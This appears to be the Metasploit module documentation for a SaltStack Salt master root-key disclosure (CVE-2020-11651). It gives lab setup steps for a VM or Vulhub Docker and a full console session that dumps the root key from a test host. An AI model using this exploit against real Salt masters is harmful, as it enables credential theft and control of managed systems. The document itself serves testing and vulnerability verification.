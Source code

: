 ## Vulnerable Application

### Description

This module exploits unauthenticated access to the `_prep_auth_info()`
method in the SaltStack Salt master's ZeroMQ request server, for
versions 2019.2.3 and earlier and 3000.1 and earlier, to disclose the
root key used to authenticate administrative commands to the master.

VMware vRealize Operations Manager versions 7.5.0 through 8.1.0 are
known to be affected by the Salt vulnerabilities.

Tested against SaltStack Salt 2019.2.3 and 3000.1 on Ubuntu 18.04, as
well as Vulhub's Docker image.

### Setup

**Note:** I did the bulk of my testing after manually installing Salt in
an [Ubuntu 18.04 VM](#using-a-virtual-machine), but the [Docker image
from Vulhub](#using-docker) may be quicker. YMMV.

#### Using a virtual machine

1. Set up an Ubuntu 18.04 VM
2. Browse to [SaltStack's instructions for
   Ubuntu](https://repo.saltstack.com/#ubuntu)
3. Select `Pin to Minor Release` and change all versions to either
   **2019.2.3** or **3000.1**, depending on the version you wish to test
4. Follow the instructions, installing only the `salt-master` and
   `salt-minion` packages necessary for testing
5. Follow the [post-installation
   configuration](https://docs.saltstack.com/en/latest/ref/configuration/index.html)

You may now begin testing.

#### Using Docker

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

**Note:** The Salt master is already configured and running in the
following scenario. The majority of the steps below are for configuring
and starting the minion. Version **2019.2.3** will be used.

1. Run `git clone https://github.com/vulhub/vulhub`
2. Run `cd vulhub/saltstack/CVE-2020-11651`
3. Run `docker-compose up -d` to start the container in the background
4. Run `docker exec -it cve-2020-11651_saltstack_1 bash` to drop to a
   root shell inside the container
5. Run `echo $'127.0.0.1\tsalt' >> /etc/hosts` to add the master to
   `/etc/hosts` (this allows the minion to find the master)
6. Run `salt-minion -d` to execute the minion in the background
7. Run `salt-key -A` and accept the key for the minion

You may now begin testing.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

This dumps the Salt master's root key by sending the `_prep_auth_info()`
method and extracting the key from the resulting serialized auth info.

## Scenarios

### SaltStack Salt 2019.2.3 on Ubuntu 18.04

```
msf5 > use auxiliary/gather/saltstack_salt_root_key
msf5 auxiliary(gather/saltstack_salt_root_key) > options

Module options (auxiliary/gather/saltstack_salt_root_key):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   4506             yes       The target port (TCP)


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump root key from Salt master


msf5 auxiliary(gather/saltstack_salt_root_key) > set rhosts 172.28.128.5
rhosts => 172.28.128.5
msf5 auxiliary(gather/saltstack_salt_root_key) > run
[*] Running module against 172.28.128.5

[*] 172.28.128.5:4506 - Connecting to ZeroMQ service at 172.28.128.5:4506
[*] 172.28.128.5:4506 - Negotiating signature
[+] 172.28.128.5:4506 - Received valid signature: "\xFF\x00\x00\x00\x00\x00\x00\x00\x01\x7F"
[*] 172.28.128.5:4506 - Sending identical signature
[*] 172.28.128.5:4506 - Negotiating version
[+] 172.28.128.5:4506 - Received compatible version: "\x03"
[*] 172.28.128.5:4506 - Sending identical version
[*] 172.28.128.5:4506 - Negotiating NULL security mechanism
[+] 172.28.128.5:4506 - Received NULL security mechanism
[*] 172.28.128.5:4506 - Sending NULL security mechanism
[*] 172.28.128.5:4506 - Sending READY command of type REQ
[+] 172.28.128.5:4506 - Received READY reply of type ROUTER
[*] 172.28.128.5:4506 - Yeeting _prep_auth_info() at 172.28.128.5:4506
[+] 172.28.128.5:4506 - Received serialized auth info
[+] 172.28.128.5:4506 - Root key: bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=
[*] 172.28.128.5:4506 - Disconnecting from 172.28.128.5:4506
[*] Auxiliary module execution completed
msf5 auxiliary(gather/saltstack_salt_root_key) > creds
Credentials
===========

host          origin        service                 public  private                                                                       realm  private_type  JtR Format
----          ------        -------                 ------  -------                                                                       -----  ------------  ----------
172.28.128.5  172.28.128.5  4506/tcp (salt/zeromq)  root    bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=         Password

msf5 auxiliary(gather/saltstack_salt_root_key) >
```
